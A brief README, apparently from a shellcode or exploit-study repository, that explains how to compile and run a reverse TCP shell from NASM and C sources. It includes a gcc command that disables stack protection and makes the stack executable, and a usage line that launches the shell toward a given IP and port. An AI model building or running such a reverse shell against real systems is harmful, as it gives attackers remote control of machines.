 ## Compilation
### to compile nasm file, use the following command
```
./compile.sh reverse-shell
```

### to compile the c file, use the following command
```
gcc -m32 -fno-stack-protector -z execstack reverse-tcp-shell.c -o reverse-tcp-shell
```

## Usage
### for compiled nasm file:
 ```
 ./reverse-shell
 ```
 
 ### for compiled c file
 ```
 ./reverse-tcp-shell ip-address port-number
 ```
